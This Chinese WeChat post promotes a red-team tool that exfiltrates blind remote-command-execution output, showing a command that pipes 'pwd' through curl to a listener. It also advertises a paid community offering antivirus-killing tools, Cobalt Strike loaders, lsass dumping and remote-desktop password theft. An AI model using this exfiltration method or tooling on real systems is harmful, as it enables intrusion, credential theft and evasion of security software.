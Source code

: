 #  工具推荐 | RCE命令无回显利用工具   
shanxi  星落安全团队   2025-05-22 16:00  
  
![](https://mmbiz.qpic.cn/mmbiz_png/spc4mP9cfo75FXwfFhKxbGU93Z4H0tgt4O9libYH9mKfZdHgvke0CeibvXDtNcdaqamRk3dEEcRQiaWbGiacZ2waVw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WN0ZdfFXY80dA2Z4y8cq7zy2dicHmWOIib5sIn8xAxRIzJibo2fwVZ3aicVBM8RnAqRPH5Libr4f02Zs5YnMLBcREnA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
现在只对常读和星标的公众号才展示大图推送，建议大家能把  
**星落安全团队**  
“  
**设为星标**  
”，  
否则可能就看不到了啦  
！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rlSBJ0flllkXnsUODwVWmlxAHuHu4dBuwIlu707ZfPdbNTYyibYzQHA0xn0p2hTbQAiba04SOnDiadxVExZ53nfog/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**工具介绍**  
  
RCE命令无回显利用工具，支持在Linux、Windows下使用，渗透测试中遇到执行命令无回显的场景时可以使用该工具通过curl外带命令达到回显的效果。  
  
工具使用  
  
1. 服务端部  
署，执行以下命令：  
  
```
python3 app.py
```  
  
  
2.   
客户端请求，  
执行以下命令：  
```
pwd | curl -X POST -d @- http://127.0.0.1:5000/ 
```  
  
3.访问服务端网页相关服务来查看客户端命令执行结果  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rlSBJ0flllkcXkEK7qrjoBptvKAGuWxKiakjVsn41oQWky6H3zibFyQNsGUIRP3640jeicW1YtDSA2ZibehBQLIiaKA/640?wx_fmt=png&from=appmsg "")  
  
  
**相关地址**  
  
**关注微信公众号后台回复“入群”，即可进入星落安全交流群！**  
  
**关注微信公众号后台回复“20250523”，即可获取项目下载地址！**  
  
  
  
**圈子介绍**  
  
博主介绍  
：  
  
  
目前工作在某安全公司攻防实验室，一线攻击队选手。自2022-2024年总计参加过30+次省/市级攻防演练，擅长工具开发、免杀、代码审计、信息收集、内网渗透等安全技术。  
  
  
目前已经更新的免杀内容：  
- 部分免杀项目源代码  
  
- 一键击溃360+核晶  
  
- 一键击溃windows defender  
  
- 一键击溃火绒进程  
  
-    
CobaltStrike4.9.1二开   
  
-    
CobaltStrike免杀加载器  
  
- 数据库直连工具免杀版  
  
- aspx文件自动上线cobaltbrike  
  
- jsp文件  
自动上线cobaltbrike  
  
- 哥斯拉免杀工具   
XlByPassGodzilla  
  
- 冰蝎免杀工具 XlByPassBehinder  
  
- 冰蝎星落专版 xlbehinder  
  
- 正向代理工具 xleoreg  
  
- 反向代理工具xlfrc  
  
- 内网扫描工具 xlscan  
  
- CS免杀加载器 xlbpcs  
  
- Todesk/向日葵密码读取工具  
  
- 导出lsass内存工具 xlrls  
  
- 绕过WAF免杀工具 ByPassWAF  
  
- 等等...  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/DWntM1sE7icZvkNdicBYEs6uicWp0yXACpt25KZIiciaY7ceKVwuzibYLSoup8ib3Aghm4KviaLyknWsYwTHv3euItxyCQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
目前星球已满500人，价格由208元  
调整为  
218元(  
交个朋友啦  
)，600名以后涨价至268元！  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/rlSBJ0flllkN0Z3pNGXR2znpzfM0z8rR6nUPo8lbItfge0zwVQpsQpBNMby3aslX4WWKgTgyvaPvYc3wf2AMBQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/MuoJjD4x9x3siaaGcOb598S56dSGAkNBwpF7IKjfj1vFmfagbF6iaiceKY4RGibdwBzJyeLS59NlowRF39EPwSCbeQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
     
往期推荐  
     
  
  
1.   
[学不会全额退款 | 星落免杀第一期，助你打造专属免杀武器库](https://mp.weixin.qq.com/s?__biz=MzkwNjczOTQwOA==&mid=2247494072&idx=1&sn=e46a6d176a8fad2aa4b4c055de3607da&scene=21#wechat_redirect)  
  
  
  
2.   
[【干货】你不得不学习的内网渗透手法](http://mp.weixin.qq.com/s?__biz=MzkwNjczOTQwOA==&mid=2247489483&idx=1&sn=0cbeb449e56db1ae48abfb924ffd0b43&chksm=c0e2bc74f79535622f39166c8ed17d5fe5a2bbc3f622d20491033b6aa61d26d789e59bab5b79&scene=21#wechat_redirect)  
  
  
  
3.   
[【免杀】CobaltStrike4.9.1二开 | 自破解 免杀 修复BUG](http://mp.weixin.qq.com/s?__biz=MzkwNjczOTQwOA==&mid=2247488486&idx=1&sn=683083d38a58de4a95750673d9cb725d&chksm=c0e2b859f795314f3b7bc980a5d4114508ee2c286bc683cdfd25eefa4fb59f26adfe5483690b&scene=21#wechat_redirect)  
[！](http://mp.weixin.qq.com/s?__biz=MzkwNjczOTQwOA==&mid=2247486966&idx=1&sn=3f144d5936d5cdc11178004549384ace&chksm=c0e2a649f7952f5f7557dde6e9cca53ecee7b5e2f7ff23395250e8fe47acb102902d9727185d&scene=21#wechat_redirect)  
  
  
  
4.   
[【免杀】原来SQL注入也可以绕过杀软执行shellcode上CoblatStrike](http://mp.weixin.qq.com/s?__biz=MzkwNjczOTQwOA==&mid=2247489950&idx=1&sn=a54e05e31a2970950ad47800606c80ff&chksm=c0e2b221f7953b37b5d7b1a8e259a440c1ee7127d535b2c24a5c6c2f2e773ac2a4df43a55696&scene=21#wechat_redirect)  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/DWntM1sE7icZvkNdicBYEs6uicWp0yXACpt25KZIiciaY7ceKVwuzibYLSoup8ib3Aghm4KviaLyknWsYwTHv3euItxyCQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
【  
声明  
】本文所涉及的技术、思路和工具仅用于安全测试和防御研究，切勿将其用于非法入侵或攻击他人系统以及盈利等目的，一切后果由操作者自行承担！！！  
  
  
  
